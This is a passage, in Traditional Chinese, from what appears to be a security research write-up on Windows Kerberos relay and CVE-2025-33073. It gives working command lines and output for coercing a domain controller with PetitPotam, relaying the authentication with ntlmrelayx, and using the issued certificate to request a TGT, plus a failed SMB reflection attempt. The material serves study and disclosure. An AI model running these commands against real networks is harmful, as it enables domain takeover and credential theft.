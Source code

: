 #### 使用任何強制技術，我們現在可以強制網域控制站向我們進行驗證：

```bash=
$ petitpotam.py -u 'user' -p 'pass' -d INDUS.LOCAL 'pki41UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc03.indus.local
```

#### wireshark

![image](https://hackmd.io/_uploads/Byfcd3U9lx.png)

1. 惡意的 SMB 伺服器會接收到 AP_REQ 訊息，這代表所需的功能其實已經整合在工具中。
2. 由於 AP_REQ 擷取功能已經實作完成，從 AP_REQ 中取得的驗證資料就能傳遞給 ntlmrelayx 所支援的各種攻擊模組。
3. 以 HTTP 為例，流程相對簡單：AP_REQ 會先進行 Base64 編碼，然後放進 HTTP 的 Authorization: Kerberos base64_AP_REQ 標頭裡。

#### 結果如下：

![image](https://hackmd.io/_uploads/SJ-VFhUqlg.png)

#### 然後，產生的 PFX 可用於向 DC 請求 TGT：

```bash=
$ gettgtpkinit.py -cert-pfx 'DC03$.pfx' 'INDUS.LOCAL/DC03$' DC03.ccache
INFO:Loading certificate and key from file                             
INFO:Requesting TGT                       
INFO:AS-REP encryption key (you might need this later):
INFO:5aed9cb3f2f7af161efe2d43119e87a2dade54bed6bd4602d82051ecbac549a1
INFO:Saved TGT to file   
```

---

# 回到 CVE-2025-33073

## 漏洞發現

嘗試將 SMB 身份驗證轉發回同一台機器時會發生什麼。
SRV1 是 Windows Server 2022，已加入網域，且未強制執行 SMB 簽署：

```powershell=
$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL 192.168.56.3 SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[-] Authenticating against smb://SRV1.ASGARD.LOCAL as ASGARD/SRV1$ FAILED
```

PetitPotam 強制 SYSTEM 服務 （lsass.exe） 向受控機器進行身份驗證，因此會收到機器帳戶身份驗證。
由於驗證源自同一台機器，因此中繼會失敗。
